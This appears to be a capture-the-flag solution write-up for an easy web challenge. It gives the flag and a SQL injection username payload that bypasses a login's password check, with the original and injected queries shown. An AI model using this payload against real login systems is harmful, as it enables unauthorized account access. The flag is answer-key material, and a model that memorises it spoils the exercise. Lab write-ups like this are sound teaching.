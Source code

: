 # Solution to Easy Web Exploitation
Flag - CompSoc{0N3!=0}

1. On homepage enter the username to be  `admin' OR '1'='1`

This is fed into the system and causes the query which is originally this

```sql
SELECT * FROM users WHERE username='{username}' AND password='{password}'
```
to this
```sql
SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='anything'
```
